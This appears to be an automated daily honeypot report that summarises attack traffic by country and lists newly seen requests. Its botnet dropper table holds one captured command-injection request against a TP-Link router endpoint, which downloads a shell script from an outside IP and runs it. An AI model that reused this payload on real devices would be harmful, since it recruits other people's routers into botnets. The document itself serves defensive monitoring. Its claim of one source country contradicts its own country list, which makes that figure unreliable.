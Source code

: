 ```yaml
---
title: "Report: 2025-05-05 "
date: 2025-05-05
desciption: "Report: 2025-05-05" 
tags: [repport, daily]
---
```



# Daily Report: 2025-05-05 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 1 stage 1 IP address(es), linked to 1 dropper URL(s).  

There are 4 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 1463 requests were recorded during the day, originating from 1 different countries, with a peak of 318 requests coming from BG.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Dubai              |

## botnet_dropper_behaviour
| remote_addr   | request                                                                                                                                                                                                   |
|:--------------|:----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 45.95.147.209 | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(id%3E%60cd+%2Ftmp%3B+rm+-rf+sh%3B+wget+http%3A%2F%2F176.65.148.234%2Fsh%3B+chmod+777+sh%3B+.%2Fsh+tplink%3B+rm+-rf+sh%60) HTTP/1.1 |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      |
|----:|----------------------:|:---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 319 |                     1 | \x00\x00\x00\xE0Z\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x05\x01=K\x00\x00\x01\x01\x11\x08\xA8\xC0\xD8C\xAEC\x95x/\x00admin\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x000\x81\x89\x02\x81\x81\x00\xCF2\x93u-\x97\x90\xA5Bm\xD6M\xBD\x7F\x15\x93\xE9\xB6\xA1\xADp\x14\x89\x1D\x09G\xE2'\x92%i+;\xC6}\xFD\xF6\xFD\xAD\x98\x81\x8Fg\x18\x19i)\xCF\x80}T\x22gK\xF3X\xAC\xBD\xC9\xB5w\x9A\xE1\x08\xD1\x907\xAFGY\x80\xD9\xE7p\xEA;                                                                                                                                                                            |
| 325 |                     1 | \x00\x00\x00\xE0Z\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x05\x01=K\x00\x00\x01\x01\x11\x08\xA8\xC0\xD8C\xAEC\x95x/\x00admin\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x000\x81\x89\x02\x81\x81\x00\xB6\x8A\x91\xE6\xA6\x09\xED\x837\xCAd'\xE6\xA7\xA4\xF0\x1BR|\x12\xEB\x98\x12\xE6\xCC\x06k\x1B\x00p1\xE9\x02\x8E\xDFP\xC4\x13\x7Fi\xE3\xC3m\x1D\xD03\xC2\xB5TS\x22\xDC'\xEA9 \xD2h\x81V%\x03\x8A\xBA`_Rc\xF7U\xFBlk\x92\xB2\x97B\xFF\xE3\x12bJ\x15D\xF8\xB0K\xDE\xCE\x14\xD0SM\x0C\xF72\xEE^y\xCA\x13\x13\x00Q\xCD\xB23\x7F\x9C(|1\xAA0\xCAN\x1D\xFC\xC3#2\x0C\xC0\x86t\xA7\xE5\x93\x02\x03\x01\x00\x01 |
| 329 |                     1 | \x00\x00\x00\xE0Z\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x05\x01=K\x00\x00\x01\x01\x11\x08\xA8\xC0\xD8C\xAEC\x95x/\x00admin\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x000\x81\x89\x02\x81\x81\x00\xB4'\x0CS!$\x0C\xEC\x0Cz\x15\x87\x1C\xE8f\x0ELc\xC6k\x8Ax\xFDLD\xC5+\x01\x90\xFE\xF5@\xD7\x86N\xEA\xB3\x00\x1D\xC2`\xAC.\xBB,\xCE+\xC9E\x0Cq\x95\xD8=\x91\x869\xDB.\x81V\xC4jPgz\xC7\x9A\xA3\x08\xE4\x8Esb\xD1SV\x07\x8F\x1B\x81\x9D\x05\xCD\xD3\x9D_?\x08.IK\xF2F\x05\x88L\x03\xFE\x1C\x8A\xE1\x00/\xA8\x03\x1F\xFAW\x91o=h\xBB\xA0q\x05\x81/\xB9}r\x9E\xA4\xB6;\xE6\x85\x02\x03\x01\x00\x01          |
| 333 |                     1 | \xA0\x05\x00`\x00\x00\x00\x00\xC4\xA3\xAFH\x99V\xB6\xB4\xC4\xA3\xAFH\x99V\xB6\xB4\x05\x02\x00\x01\x00\x00\xA1\xAA                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   318 | BG                 |
|  1 |                   308 | NL                 |
|  2 |                   188 | US                 |
|  3 |                   109 | DE                 |
|  4 |                   100 | CN                 |
|  5 |                    87 | GB                 |
|  6 |                    61 | FR                 |
|  7 |                    49 | VN                 |
|  8 |                    48 | IN                 |
|  9 |                    42 | PL                 |
| 10 |                    33 | SC                 |
| 11 |                    15 | KR                 |
| 12 |                    12 | PT                 |
| 13 |                    12 | AZ                 |
| 14 |                     8 | CZ                 |
| 15 |                     8 | AO                 |
| 16 |                     7 | TR                 |
| 17 |                     7 | UA                 |
| 18 |                     6 | BE                 |
| 19 |                     4 | CH                 |
| 20 |                     4 | SG                 |
| 21 |                     4 | LT                 |
| 22 |                     4 | AE                 |
| 23 |                     4 | CA                 |
| 24 |                     4 | GH                 |
| 25 |                     4 | SA                 |
| 26 |                     3 | HU                 |
| 27 |                     2 | RU                 |
| 28 |                     2 | HK                 |
| 29 |                     2 | ID                 |
| 30 |                     1 | IT                 |
| 31 |                     1 | IR                 |
| 32 |                     1 | JP                 |
| 33 |                     1 | RO                 |
| 34 |                     1 | NZ                 |
| 35 |                     1 | MC                 |
| 36 |                     1 | TH                 |
| 37 |                     1 | EE                 |

